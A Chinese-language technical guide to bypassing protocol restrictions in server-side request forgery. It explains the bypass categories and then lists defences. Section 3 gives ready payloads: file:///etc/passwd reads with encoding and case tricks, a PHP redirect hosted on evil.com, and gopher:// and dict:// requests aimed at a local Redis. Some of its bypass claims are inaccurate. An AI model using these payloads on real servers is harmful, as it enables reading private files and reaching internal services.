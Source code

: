 # SSRF协议限制绕过技术文档

## 1. 概述

### 1.1 定义
SSRF（Server-Side Request Forgery，服务器端请求伪造）是一种安全漏洞，攻击者能够利用目标服务器发起未经授权的请求。SSRF通常用于攻击内部系统、访问敏感数据或绕过防火墙等安全机制。协议限制绕过是SSRF攻击中的一种高级技术，旨在绕过服务器对特定协议（如HTTP、HTTPS、FTP等）的限制，从而扩大攻击面。

### 1.2 原理
SSRF漏洞的核心在于服务器未对用户提供的URL进行严格的验证和过滤，导致攻击者可以控制服务器发起任意请求。协议限制绕过技术则通过利用URL解析、协议重定向、DNS解析等机制，绕过服务器对特定协议的限制，使攻击者能够使用被禁止的协议（如`file://`、`gopher://`等）发起请求。

### 1.3 攻击场景
- 访问内部服务：通过SSRF访问内网中的敏感服务（如数据库、管理界面）。
- 文件读取：利用`file://`协议读取服务器上的敏感文件。
- 端口扫描：通过SSRF扫描内网中的开放端口。
- 协议滥用：利用`gopher://`、`dict://`等协议与内部服务交互。

---

## 2. SSRF协议限制绕过的分类

### 2.1 URL解析绕过
服务器通常会对用户提供的URL进行解析，以确定是否允许使用特定协议。攻击者可以通过以下方式绕过限制：
- **URL编码**：对协议部分进行URL编码（如`%66%69%6c%65`对应`file`）。
- **大小写混淆**：使用大小写混合的协议名（如`FiLe://`）。
- **多斜杠**：在协议后添加多个斜杠（如`file:///etc/passwd`）。

### 2.2 协议重定向绕过
某些服务器会禁止直接使用特定协议，但允许使用HTTP/HTTPS协议。攻击者可以通过以下方式绕过限制：
- **HTTP重定向**：构造一个HTTP URL，其响应中包含重定向到目标协议的URL。
- **DNS重定向**：通过DNS解析将域名指向目标协议的服务器。

### 2.3 协议混淆绕过
某些服务器会基于URL的协议部分进行过滤，但未对URL的其他部分进行严格检查。攻击者可以通过以下方式绕过限制：
- **协议拼接**：在URL中拼接多个协议（如`http://evil.com?url=file:///etc/passwd`）。
- **协议嵌入**：在URL的路径或参数中嵌入目标协议（如`http://evil.com/file:///etc/passwd`）。

### 2.4 特殊协议绕过
某些协议（如`gopher://`、`dict://`）具有特殊的功能，可以用于与内部服务交互。攻击者可以通过以下方式绕过限制：
- **协议别名**：使用协议的别名或变体（如`gopher:`、`dict:`）。
- **协议扩展**：利用协议的扩展功能（如`gopher://`的TCP连接功能）。

---

## 3. 技术细节与攻击向量

### 3.1 URL解析绕过示例
```bash
# 原始URL
file:///etc/passwd

# URL编码绕过
%66%69%6c%65:///etc/passwd

# 大小写混淆绕过
FiLe:///etc/passwd

# 多斜杠绕过
file://///etc/passwd
```

### 3.2 协议重定向绕过示例
```php
# 攻击者控制的HTTP服务器（redirect.php）
<?php
header("Location: file:///etc/passwd");
?>

# 攻击者提供的URL
http://evil.com/redirect.php
```

### 3.3 协议混淆绕过示例
```bash
# 协议拼接绕过
http://evil.com?url=file:///etc/passwd

# 协议嵌入绕过
http://evil.com/file:///etc/passwd
```

### 3.4 特殊协议绕过示例
```bash
# Gopher协议绕过
gopher://127.0.0.1:6379/_*2%0d%0a$4%0d%0aPING%0d%0a

# Dict协议绕过
dict://127.0.0.1:6379/INFO
```

---

## 4. 防御思路与建议

### 4.1 输入验证与过滤
- **协议白名单**：仅允许使用特定的协议（如HTTP、HTTPS）。
- **URL解析**：使用严格的URL解析库，确保协议部分符合预期。
- **正则表达式**：使用正则表达式对URL进行验证，过滤非法字符和协议。

### 4.2 请求限制
- **目标地址限制**：限制服务器可以访问的目标地址（如仅允许访问公网地址）。
- **端口限制**：限制服务器可以访问的端口（如仅允许80、443端口）。
- **请求方法限制**：限制服务器可以使用的请求方法（如仅允许GET请求）。

### 4.3 安全配置
- **禁用危险协议**：在服务器配置中禁用`file://`、`gopher://`等危险协议。
- **DNS解析限制**：限制服务器可以解析的域名（如仅允许解析公网域名）。
- **防火墙规则**：配置防火墙规则，限制服务器对内部服务的访问。

### 4.4 监控与日志
- **请求日志**：记录服务器发起的请求，便于审计和分析。
- **异常检测**：监控服务器的请求行为，检测异常流量。
- **安全测试**：定期进行安全测试，发现和修复潜在的SSRF漏洞。

---

## 5. 总结
SSRF协议限制绕过是一种高级攻击技术，能够绕过服务器对特定协议的限制，扩大攻击面。防御SSRF漏洞需要从输入验证、请求限制、安全配置和监控日志等多个方面入手，确保服务器对用户提供的URL进行严格的验证和过滤。通过采取综合的防御措施，可以有效降低SSRF漏洞的风险，保护服务器和内部系统的安全。

---

*文档生成时间: 2025-03-12 09:33:05*
